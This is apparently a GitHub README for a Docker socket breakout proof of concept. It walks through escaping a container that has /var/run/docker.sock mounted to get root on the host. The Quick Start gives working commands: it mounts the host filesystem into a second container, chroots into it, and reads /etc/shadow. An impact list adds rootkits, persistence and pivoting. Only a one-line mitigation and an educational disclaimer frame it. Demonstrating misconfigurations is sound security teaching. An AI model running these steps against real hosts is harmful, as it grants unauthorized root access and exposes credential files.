 # 🐳 Docker.sock Breakout PoC

> 🚨 A proof-of-concept showing how mounting `/var/run/docker.sock` into a container gives root access to the host.

This project demonstrates a **critical Docker misconfiguration**. By mounting the Docker Unix socket into a container, the container can communicate with the host Docker daemon — and effectively escape its sandbox, escalate privileges, and fully control the host.

## ⚠️ TL;DR

Mounting `/var/run/docker.sock` gives the container **root-level access to the host**.

## 📁 Project Structure

```
docker-sock-breakout/
├── Dockerfile
├── docker-compose.yml
└── exploit.sh
```

## 🧪 How It Works

1. A container is started with `-v /var/run/docker.sock:/var/run/docker.sock`
2. Inside the container, Docker CLI is available
3. We use Docker inside the container to run **another** container
4. That second container mounts `/` from the host and runs `chroot /host`
5. Now we’re inside the host, as root

## 🚀 Quick Start

### 1. Build and Run

```bash
git clone https://github.com/CyberSquirrel-AI/docker-sock-breakout.git
cd docker-sock-breakout

docker-compose up -d
docker exec -it docker-sock-breakout sh
```

### 2. Inside the Container

```bash
docker ps
docker run -it --rm -v /:/host alpine
```

### 3. Inside the Alpine container

```bash
chroot /host
hostname
id
ls /root
cat /etc/shadow
```


## 📉 Impact

- Full host filesystem access
- Run arbitrary containers as `--privileged`
- Read sensitive files like `/etc/shadow`, `/root/.ssh/`
- Install rootkits or persist on host
- Pivot to other containers, networks, volumes

## 🛡️ Mitigation

- ❌ Do NOT mount `/var/run/docker.sock` into untrusted containers

## ⚠️ Disclaimer

This project is for **educational purposes only**. Do not run this on any system you don't own or have permission to test. You are responsible for your actions.

